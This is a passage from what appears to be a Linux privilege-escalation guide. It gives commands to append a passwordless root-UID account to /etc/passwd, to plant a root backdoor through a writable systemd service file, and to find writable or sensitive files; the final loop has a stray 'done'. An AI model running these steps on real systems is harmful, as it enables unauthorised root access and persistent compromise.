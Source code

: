 ```
echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd
su - dummy
```

NOTE: In BSD platforms `/etc/passwd` is located at `/etc/pwd.db` and `/etc/master.passwd`, also the `/etc/shadow` is renamed to `/etc/spwd.db`.

You should check if you can **write in some sensitive file**. For example, can you write to some **service configuration file**?

```bash
find / '(' -type f -or -type d ')' '(' '(' -user $USER ')' -or '(' -perm -o=w ')' ')' 2>/dev/null | grep -v '/proc/' | grep -v $HOME | sort | uniq #Find files owned by the user or writable by anybody
for g in `groups`; do find \( -type f -or -type d \) -group $g -perm -g=w 2>/dev/null | grep -v '/proc/' | grep -v $HOME; done #Find files writable by any group of the user
```

For example, if the machine is running a **tomcat** server and you can **modify the Tomcat service configuration file inside /etc/systemd/,** then you can modify the lines:

```
ExecStart=/path/to/backdoor
User=root
Group=root
```

Your backdoor will be executed the next time that tomcat is started.

### Check Folders

The following folders may contain backups or interesting information: **/tmp**, **/var/tmp**, **/var/backups, /var/mail, /var/spool/mail, /etc/exports, /root** (Probably you won't be able to read the last one but try)

```bash
ls -a /tmp /var/tmp /var/backups /var/mail/ /var/spool/mail/ /root
```

### Weird Location/Owned files

```bash
#root owned files in /home folders
find /home -user root 2>/dev/null
#Files owned by other users in folders owned by me
for d in `find /var /etc /home /root /tmp /usr /opt /boot /sys -type d -user $(whoami) 2>/dev/null`; do find $d ! -user `whoami` -exec ls -l {} \; 2>/dev/null; done
#Files owned by root, readable by me but no world readable
find / -type f -user root ! -perm -o=r 2>/dev/null
#Files owned by me or world writable
find / '(' -type f -or -type d ')' '(' '(' -user $USER ')' -or '(' -perm -o=w ')' ')' ! -path "/proc/*" ! -path "/sys/*" ! -path "$HOME/*" 2>/dev/null
#Writable files by each group I belong to
for g in `groups`;
      do printf "  Group $g:\n";
      find / '(' -type f -or -type d ')' -group $g -perm -g=w ! -path "/proc/*" ! -path "/sys/*" ! -path "$HOME/*" 2>/dev/null
      done
done
```
